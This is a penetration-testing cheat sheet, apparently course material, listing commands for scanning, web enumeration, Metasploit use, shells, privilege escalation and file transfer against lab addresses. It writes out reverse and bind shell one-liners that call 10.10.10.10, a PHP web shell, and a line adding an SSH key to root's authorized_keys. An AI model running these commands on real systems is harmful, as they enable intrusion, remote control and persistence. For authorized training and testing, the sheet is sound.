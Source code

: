 ## Basic Tools

| **Command**   | **Description**   |
| --------------|-------------------|
| **General** |
| `sudo openvpn user.ovpn` | Connect to VPN |
| `ifconfig`/`ip a` | Show our IP address |
| `netstat -rn` | Show networks accessible via the VPN |
| `ssh user@10.10.10.10` | SSH to a remote server |
| `ftp 10.129.42.253` | FTP to a remote server |
| **tmux** |
| `tmux` | Start tmux |
| `ctrl+b` | tmux: default prefix |
| `prefix c` | tmux: new window |
| `prefix 1` | tmux: switch to window (`1`) |
| `prefix shift+%` | tmux: split pane vertically |
| `prefix shift+"` | tmux: split pane horizontally |
| `prefix ->` | tmux: switch to the right pane |
| **Vim** |
| `vim file` | vim: open `file` with vim |
| `esc+i` | vim: enter `insert` mode |
| `esc` | vim: back to `normal` mode |
| `x` | vim: Cut character |
| `dw` | vim: Cut word |
| `dd` | vim: Cut full line |
| `yw` | vim: Copy word |
| `yy` | vim: Copy full line |
| `p` | vim: Paste |
| `:1` | vim: Go to line number 1. |
| `:w` | vim: Write the file 'i.e. save' |
| `:q` | vim: Quit |
| `:q!` | vim: Quit without saving |
| `:wq` | vim: Write and quit |

## Pentesting
| **Command**   | **Description**   |
| --------------|-------------------|
| **Service Scanning** |
| `nmap 10.129.42.253` | Run nmap on an IP |
| `nmap -sV -sC -p- 10.129.42.253` | Run an nmap script scan on an IP |
| `locate scripts/citrix` | List various available nmap scripts |
| `nmap --script smb-os-discovery.nse -p445 10.10.10.40` | Run an nmap script on an IP |
| `netcat 10.10.10.10 22` | Grab banner of an open port |
| `smbclient -N -L \\\\10.129.42.253` | List SMB Shares |
| `smbclient \\\\10.129.42.253\\users` | Connect to an SMB share |
| `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0` | Scan SNMP on an IP |
| `onesixtyone -c dict.txt 10.129.42.254` | Brute force SNMP secret string |
| **Web Enumeration** |
| `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` | Run a directory scan on a website |
| `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Run a sub-domain scan on a website |
| `curl -IL https://www.inlanefreight.com` | Grab website banner |
| `whatweb 10.10.10.121` | List details about the webserver/certificates |
| `curl 10.10.10.121/robots.txt` | List potential directories in `robots.txt` |
| `ctrl+U` | View page source (in Firefox) |
| **Public Exploits** |
| `searchsploit openssh 7.2` | Search for public exploits for a web application |
| `msfconsole` | MSF: Start the Metasploit Framework |
| `search exploit eternalblue` | MSF: Search for public exploits in MSF |
| `use exploit/windows/smb/ms17_010_psexec` | MSF: Start using an MSF module |
| `show options` | MSF: Show required options for an MSF module |
| `set RHOSTS 10.10.10.40` | MSF: Set a value for an MSF module option |
| `check` | MSF: Test if the target server is vulnerable |
| `exploit` | MSF: Run the exploit on the target server is vulnerable |
| **Using Shells** |
| `nc -lvnp 1234` | Start a `nc` listener on a local port |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` | Send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f` | Another command to send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f` | Start a bind shell on the remote server |
| `nc 10.10.10.1 1234` | Connect to a bind shell started on the remote server |
| `python -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell TTY (1) |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice | Upgrade shell TTY (2) |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` | Create a webshell php file |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id` | Execute a command on an uploaded webshell |
| **Privilege Escalation** |
| `./linpeas.sh` | Run `linpeas` script to enumerate remote server |
| `sudo -l` | List available `sudo` privileges |
| `sudo -u user /bin/echo Hello World!` | Run a command with `sudo` |
| `sudo su -` | Switch to root user (if we have access to `sudo su`) |
| `sudo su user -` | Switch to a user (if we have access to `sudo su`) |
| `ssh-keygen -f key` | Create a new SSH key |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Add the generated public key to the user |
| `ssh root@10.10.10.10 -i key` | SSH to the server with the generated private key |
| **Transferring Files** |
| `python3 -m http.server 8000` | Start a local webserver |
| `wget http://10.10.14.1:8000/linpeas.sh` | Download a file on the remote server from our local machine |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Download a file on the remote server from our local machine |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh` | Transfer a file to the remote server with `scp` (requires SSH access) |
| `base64 shell -w 0` | Convert a file to `base64` |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell` | Convert a file from `base64` back to its orig |
| `md5sum shell` | Check the file's `md5sum` to ensure it converted correctly |